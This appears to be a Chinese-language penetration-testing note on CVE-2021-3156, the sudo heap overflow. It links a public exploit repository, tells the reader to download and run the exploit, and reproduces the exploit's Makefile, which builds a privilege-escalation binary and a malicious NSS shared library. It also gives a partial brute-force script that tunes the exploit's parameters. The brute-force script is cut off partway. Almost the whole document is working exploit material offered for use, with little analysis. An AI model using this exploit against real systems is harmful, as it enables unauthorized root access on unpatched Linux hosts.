 

# 0X05 EXP

## EXP-1
下载地址：[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

下载并执行<br />![image-20211105102630552.png](_img/assets/1659510124350-3d3987c4-a118-4d53-8161-f87bf8cc9520.png)

Makefile
```c
all:
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
brute: all
gcc -DBRUTE -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```

brute.sh
```c
#!/bin/bash

try_brute() {
    IDX=`echo "$1" | awk -F ':' '{ print $1 }'`
        ALEN=`echo "$1" | awk -F ':' '{ print $2 }'`
        BLEN=`echo "$1" | awk -F ':' '{ print $3 }'`
        NLEN=`echo "$1" | awk -F ':' '{ print $4 }'`
        LCLEN=`echo "$1" | awk -F ':' '{ print $5 }'`
        OFN=out/`printf "%08d" $IDX`.txt
        
        (
        timeout 2 stdbuf -oL ./sudo-hax-me-a-sandwich $ALEN $BLEN $NLEN $LCLEN 2>&1
    ) > $OFN
        
        R="`grep -B999 bl1ng $OFN`"
        
        if [ "$R" == "" ]; then
            echo "NOPE"
            else
                echo "==================" >> success.txt
                grep -B999 bl1ng $OFN >> success.txt
                fi
                
                rm -f "${OFN}"
            }

if [ "$#" == "1" ]; then
N=`echo "$1" | awk -F ':' '{ print NF }'`
if [ "$N" == 5 ]; then
try_brute "$1"
    exit 0
    fi
    fi
    
    if [ "$#" != "6" ]; then
    echo "usage: $0 <smash_min> <smash_max> <null_min> <null_max> <lc_min> <lc_max>"
        exit 0
        fi
        
```